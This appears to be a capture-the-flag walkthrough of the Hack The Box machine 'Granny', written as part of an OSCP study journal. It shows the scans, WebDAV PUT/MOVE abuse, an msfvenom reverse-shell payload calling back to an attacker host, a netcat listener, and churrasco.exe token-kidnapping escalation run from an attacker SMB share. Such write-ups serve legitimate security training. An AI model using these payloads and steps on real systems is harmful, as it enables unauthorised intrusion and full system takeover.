

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/granny-easy
---

# ✅ Granny (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Misconfigure on Method

**System Vulnerable:** 10.10.10.15

**Vulnerability Explanation:** The machine is misconfigured on Method which could allow us to upload revershell and gain initial foothold.

**Privilege Escalation Vulnerability:** Out of dated System&#x20;

**Vulnerability Fix:** Restricted method and apply patch to the system

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -sC -sV -T4 10.10.10.15
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-09 09:39 EST
Nmap scan report for 10.10.10.15
Host is up (0.045s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Tue, 09 Nov 2021 14:39:32 GMT
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Port 80 Microsoft-IIS/6.0

By going through port 80, we just see simple webpage. That's the only entry point.

.png>)

Let start gobuster for to find hidden directory and run nikto scan.

```
└─$ gobuster dir -u http://10.10.10.15 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50            
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.15
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/09 09:53:31 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 149] [--> http://10.10.10.15/images/]
/Images               (Status: 301) [Size: 149] [--> http://10.10.10.15/Images/]
/IMAGES               (Status: 301) [Size: 149] [--> http://10.10.10.15/IMAGES/]
/_private             (Status: 301) [Size: 153] [--> http://10.10.10.15/%5Fprivate/]
                                                                                    
===============================================================
2021/11/09 09:56:54 Finished
===============================================================

└─$ nikto -h http://10.10.10.15 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.15
+ Target Hostname:    10.10.10.15
+ Target Port:        80
+ Start Time:         2021-11-09 10:00:05 (GMT-5)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-aspnet-version header: 1.1.4322
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-397: HTTP method 'PUT' allows clients to save files on the web server.
+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
+ Retrieved dasl header: <DAV:sql>
+ Retrieved dav header: 1, 2
+ Retrieved ms-author-via header: MS-FP/4.0,DAV
+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
+ WebDAV enabled (COPY MKCOL PROPPATCH PROPFIND LOCK SEARCH UNLOCK listed as allowed)
+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
+ OSVDB-3233: /_private/: FrontPage directory found.
+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST.
+ /_vti_bin/_vti_adm/admin.dll: FrontPage/SharePoint file found.
+ 8018 requests: 0 error(s) and 32 item(s) reported on remote host
+ End Time:           2021-11-09 10:06:44 (GMT-5) (399 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Get back to our nmap scan, we found the application is using **webdav protocol**. There are a lot of method protocol allow.

```
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
```

We can use **davtest** for this exploit. As we notice that for microsoft support asp and aspx but it doesn't allow. But it allow **PUT** method which we could upload file.

### Davtest

```
└─$ davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: cAWf4fO1
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_cAWf4fO1
********************************************************
 Sending test files
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_cAWf4fO1/davtest_cAWf4fO1.jsp
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_cAWf4fO1/davtest_cAWf4fO1.php
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_cAWf4fO1/davtest_cAWf4fO1.html
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_cAWf4fO1/davtest_cAWf4fO1.pl
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_cAWf4fO1/davtest_cAWf4fO1.txt
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_cAWf4fO1/davtest_cAWf4fO1.jhtml
PUT     asp     FAIL
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_cAWf4fO1/davtest_cAWf4fO1.cfm
PUT     cgi     FAIL
PUT     shtml   FAIL
PUT     aspx    FAIL
********************************************************
 Checking for test file execution
EXEC    jsp     FAIL
EXEC    php     FAIL
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_cAWf4fO1/davtest_cAWf4fO1.html
EXEC    pl      FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_cAWf4fO1/davtest_cAWf4fO1.txt
EXEC    jhtml   FAIL
EXEC    cfm     FAIL
```

We could try to upload file with **PUT** method.

```
└─$ curl -X PUT http://10.10.10.15/file.txt -d @file.txt   
└─$ curl 10.10.10.15/file.txt                              
testing 
```

Let change the file type by **MOVE** method.

```
└─$ curl -X MOVE -H 'Destination:http://10.10.10.15/file.aspx' 'http://10.10.10.15/file.txt'
└─$ curl 10.10.10.15/file.aspx                                                              
testing
```

By this we can upload our reverse shell in txt file extension first then we can change to aspx.

## Exploitation

Generating the window reverse shell payload and change file name from .aspx to .txt first.

```
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f aspx > payload.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2743 bytes

└─$ mv payload.aspx payload.txt                                                              
```

Let start our netcat listener on port 4444.

```
nc -vlp 4444
```

We can upload our payload via PUT method and change it from .txt to .aspx. But it's error.

```
└─$ curl -X PUT http://10.10.10.15/payload.txt -d @payload.txt                     
└─$ curl -X MOVE -H 'Destination:http://10.10.10.15/payload.aspx' 'http://10.10.10.15/payload.txt'
└─$ curl 10.10.10.15/payload.aspx
```

We can try again and add **--data-binary.**

```
└─$ curl -X PUT http://10.10.10.15/payload.txt --data-binary @payload.txt                     
└─$ curl -X MOVE -H 'Destination:http://10.10.10.15/payload.aspx' 'http://10.10.10.15/payload.txt'
└─$ curl 10.10.10.15/payload.aspx
```

.png>)

## Privilege Escalation

We can run systeminfo and save those information into a file systeminfo.txt.

We can run windows-exploit-suggester for checking vulnerable.

```
└─$ python windows-exploit-suggester.py -u                                      
[*] initiating winsploit version 3.3...
[+] writing to file 2021-11-09-mssb.xls
[*] done
```

```
└─$ python windows-exploit-suggester.py -d 2021-11-09-mssb.xls -i systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2003 SP2 32-bit'
[*] 
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*] 
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*] 
[E] MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
[*]   http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC
[*] 
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*] 
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*] 
[M] MS14-062: Vulnerability in Message Queuing Service Could Allow Elevation of Privilege (2993254) - Important
[*]   http://www.exploit-db.com/exploits/34112/ -- Microsoft Windows XP SP3 MQAC.sys - Arbitrary Write Privilege Escalation, PoC
[*]   http://www.exploit-db.com/exploits/34982/ -- Microsoft Bluetooth Personal Area Networking (BthPan.sys) Privilege Escalation
[*] 
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*] 
[E] MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important
[*]   https://www.exploit-db.com/exploits/39525/ -- Microsoft Windows 7 x64 - afd.sys Privilege Escalation (MS14-040), PoC
[*]   https://www.exploit-db.com/exploits/39446/ -- Microsoft Windows - afd.sys Dangling Pointer Privilege Escalation (MS14-040), PoC
[*] 
[E] MS14-035: Cumulative Security Update for Internet Explorer (2969262) - Critical
[E] MS14-029: Security Update for Internet Explorer (2962482) - Critical
[*]   http://www.exploit-db.com/exploits/34458/
[*] 
[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
[*]   http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC
[*] 
[M] MS14-012: Cumulative Security Update for Internet Explorer (2925418) - Critical
[M] MS14-009: Vulnerabilities in .NET Framework Could Allow Elevation of Privilege (2916607) - Important
[E] MS14-002: Vulnerability in Windows Kernel Could Allow Elevation of Privilege (2914368) - Important
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-097: Cumulative Security Update for Internet Explorer (2898785) - Critical
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[M] MS13-080: Cumulative Security Update for Internet Explorer (2879017) - Critical
[M] MS13-071: Vulnerability in Windows Theme File Could Allow Remote Code Execution (2864063) - Important
[M] MS13-069: Cumulative Security Update for Internet Explorer (2870699) - Critical
[M] MS13-059: Cumulative Security Update for Internet Explorer (2862772) - Critical
[M] MS13-055: Cumulative Security Update for Internet Explorer (2846071) - Critical
[M] MS13-053: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (2850851) - Critical
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[M] MS11-080: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2592799) - Important
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[M] MS09-065: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (969947) - Critical
[M] MS09-053: Vulnerabilities in FTP Service for Internet Information Services Could Allow Remote Code Execution (975254) - Important
[M] MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
[M] MS09-004: Vulnerability in Microsoft SQL Server Could Allow Remote Code Execution (959420) - Important
[M] MS09-002: Cumulative Security Update for Internet Explorer (961260) (961260) - Critical
[M] MS09-001: Vulnerabilities in SMB Could Allow Remote Code Execution (958687) - Critical
[M] MS08-078: Security Update for Internet Explorer (960714) - Critical
[*] done

```

### Window 2003 - Token Kidnapping

We have tried a bunch of manual exploit but it doesn't work. Let start manual enumerating on the machine. We see the machine is window server 2003.&#x20;

Checking the privilege, we see **SeImpersonatePrivilege** is enabled.

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

Search for public exploit, we found one Local Privilege Escalation.

.png>)

Proof of concept code: [https://www.exploit-db.com/exploits/6705](https://www.exploit-db.com/exploits/6705)

Let download the exploit code and start SMB Server to share exploit folder.

```
impacket-smbserver share .
```

On our victim machine connect and execute the exploit code.

```
c:\windows\system32\inetsrv>\\10.10.14.31\share\churrasco.exe "whoami"
\\10.10.14.31\share\churrasco.exe "whoami"
nt authority\system
```

```
C:\Documents and Settings>\\10.10.14.31\share\churrasco.exe "cmd.exe"
\\10.10.14.31\share\churrasco.exe "cmd.exe"
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami

C:\Documents and Settings>whoami
whoami
nt authority\system
```
